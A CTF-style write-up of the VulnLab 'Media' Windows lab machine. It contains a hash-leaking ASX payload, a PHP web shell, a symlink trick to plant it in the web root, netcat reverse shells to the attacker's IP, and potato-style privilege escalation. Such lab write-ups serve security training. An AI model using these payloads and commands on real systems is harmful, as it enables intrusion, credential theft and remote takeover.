 ```yaml
---
title: VulnLab -- Media Writeup
date: 2025-03-31 00:00:00 +0800
categories: [windows machine]
tags: [web exploitation,NTLM Relaying,Symlinks]
image:
    path: images/media-banner.png
---
```

# Media

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Media** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/media-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80,3389 --min-rate=1000 10.10.102.154
```

![image.png](../images/media.png)

Now let’s see the website running on port 80

![image.png](../images/media%201.png)

Now let’s go create malicious asx file 

```bash
<asx version="3.0">
    <title>Leak</title>
    <entry>
        <title></title>
        <ref href="file://10.8.5.233/leak/leak.wma"/>
    </entry>
</asx>
```

![image.png](../images/media%202.png)

Now let’s open responder

```bash
sudo responder -I tun0
```

![image.png](../images/media%203.png)

Now let’s upload the asx file to the web application

![image.png](../images/media%204.png)

Now let’s go back and see if we got a hash

![image.png](../images/media%205.png)

Notice that we got a hash so let’s go and crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/media%206.png)

Now let’s try login to SSH

```bash
ssh enox@10.10.70.160
```

![image.png](../images/media%207.png)

As we see we logged in!

Now let’s go and see the user flag

```bash
cd C:\Users\enox\Desktop
```

![image.png](../images/media%208.png)

Amazing we got the user flag 🥳

Now let’s navigate to the web directory and see the index.php file

```bash
c:\xampp\htdocs
```

![image.png](../images/media%209.png)

Now let’s save it and analyze it on our machine

```bash
code index.php
```

![image.png](../images/media%2010.png)

Now let’s start analysis.

![image.png](../images/media%2011.png)

> First the application is initializing the upload directory then it takes the firstname, lastname and email to and make them MD5 hash then create a folder with same name as the MD5 hash
> 

So what we will do as we have a full control of the created directory we will create a Symlink and make it point to the web root and then upload a PHP file that will execute system commands on the machine 

First let’s create our PHP file

```bash
<?php echo system($_REQUEST["cmd"]);?>
```

![image.png](../images/media%2012.png)

Now let’s create a fake md5 hash

```bash
import hashlib
print(hashlib.md5(b"remoremoremo@remo.com").hexdigest())
```

![image.png](../images/media%2013.png)

Now as we see we got the md5 hash

So let’s go and create a Symlink

```bash
mklink /J C:\Windows\Tasks\Uploads\2307356e83030ada3addf4fcc2e0dafa C:\xampp\htdocs
```

![image.png](../images/media%2014.png)

Now let’s go and try to upload the PHP file and intercept the request using BurpSuite

![image.png](../images/media%2015.png)

now let’s go back to the xampp directory and check if the PHP file is uploaded

```bash
c:\xampp\htdocs
```

![image.png](../images/media%2016.png)

as we see the evil.php file is uploaded 

Now let’s go and execute command 

```bash
whoami
```

![image.png](../images/media%2017.png)

Now let’s go and get a revershell

Frist let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/media%2018.png)

Now let’s go and execute reverse shell

```bash
c:\temp\nc.exe -nv 10.8.5.233 1337 -e cmd.exe
```

![image.png](../images/media%2019.png)

Now let’s go and see if we got a shell

![image.png](../images/media%2020.png)

Now let’s go and see our privilegs

```bash
whoami /all
```

![image.png](../images/media%2021.png)

> As we see we have no interesting privileges
> 

So let’s go and restore the default privileges 

```bash
FullPowers.exe -c "C:\temp\nc.exe 10.8.5.233 1338 -e cmd" -z 
```

![image.png](../images/media%2022.png)

now let’s see if we got a shell

![image.png](../images/media%2023.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/media%2024.png)

Notice that we have impersonation privileges  

so let’s us God Potato to get a reverse shell

```bash
.\gp.exe -cmd "cmd /c c:\temp\nc.exe 10.8.5.233 1337 -e cmd.exe"
```

![image.png](../images/media%2025.png)

Now let’s go and see if we got a reverse shell

![image.png](../images/media%2026.png)

as we see we got a reverse shell so let’s go to the administrator directory and see the root flag

```bash
cd c:\Users\Administrator\Desktop
```

![image.png](../images/media%2027.png)

Amazing we got a reverse shell 🥳

![image.png](../images/media%2028.png)

That’s it for the **Media** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT